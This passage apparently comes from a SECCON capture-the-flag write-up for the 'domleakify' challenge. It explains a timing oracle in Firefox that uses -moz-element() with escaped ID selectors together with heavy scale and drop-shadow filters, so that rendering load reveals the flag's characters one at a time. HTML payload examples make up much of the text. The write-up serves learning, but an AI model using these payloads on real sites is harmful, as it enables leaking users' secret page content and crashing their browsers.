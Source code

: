 Can we utilize this difference to construct an oracle? Yes.

Consider the following element:
```html
<div style="
    background-image: -moz-element(#SECCON\7b\64);
    height: 1000px;
    transform: scale(200) translate(50%, 0%);
    filter: drop-shadow(8px 8px 8px blue);
"></div>
```

The style attribute applies graphical effects to the background image:

![](./img/domleakify-05.png)

The process is very heavy. If you increase the values of `drop-shadow`, Firefox will be busy or crash:boom:

On the other hand, consider the following element:
```html
<div style="
    background-image: -moz-element(#SECCON\7b\61);
    height: 1000px;
    transform: scale(200) translate(50%, 0%);
    filter: drop-shadow(8px 8px 8px blue);
"></div>
```

The `<div>` element does not render any background image and the rendering process is light:

![](./img/domleakify-06.png)